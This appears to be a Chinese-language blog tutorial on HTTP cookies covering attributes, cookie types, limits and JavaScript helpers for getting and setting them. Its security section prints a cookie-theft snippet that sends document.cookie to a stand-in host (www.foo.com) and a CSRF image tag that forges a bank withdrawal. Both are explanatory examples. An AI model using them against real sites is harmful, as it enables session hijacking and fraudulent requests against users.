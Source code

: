 ```yaml
---
layout: post
title:  HTTP Cookie
category: 网络
tag: HTTP
---
```


* toc
{:toc}

## 检查cookie是否开启

可以通过 navigator.cookieEnabled 这个属性判断浏览器是否开启了cookie。

## cookie 的属性

### path

默认的 cookie 只对于他的同级目录和子目录可见，而对于父级目录不可见，比如在 `http://www.example.com/blog/category/index.html` 这个页面创建的 cookie 就不能被 `http://www.example.com/blog/index.html` 访问到。但是他对于 `/category` 目录中的文档是可见的。但是有的时候我希望来自同一个域名下的文档都可以共享 cookie 这个时候就可以将path 属性设置为 `/` 。

### domain

有的时候子域名间需要共享cookie,这个时候就需要用来 domain 属性。

### secure

这是一个布尔类型属性，它用来指示cookie以何种形式通过网络传输，如果为 true ，那么必须是 https 协议才能进行传输。

## 保存 cookie

```js
document.cookie = "version="+encodeURIComponent(document.lastModified)
```

cookie 的名值中不允许有`;`出现，所以在存储的时候需要对其进行编码。按上面的方式存储 cookie 的有效期只是在浏览器会话期间，要想延长 cookie 的有效期就需要设置 max-age 属性来指示 cookie 的有效期。（单位为秒）

```
name=value;max-age=seconds
```

需要设置其他属性同样只需要在设置cookie 之前追加在字符串后面就行了

```
;path=path
;domain=domain
;secure
```

要改变 cookie 的值就按同样的方法再次设置就可以了。如果删除一个 cookie 只需将他的 max-age 设置为 0 就可以了。


## cookie 的局限性

为每个 web 服务器保存的 cookie 不能超过20个，单个cookie大小不能超过4KB

## cookie 的分类

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。


### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的注意事项

### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

## 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
	return null;
};
```

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。
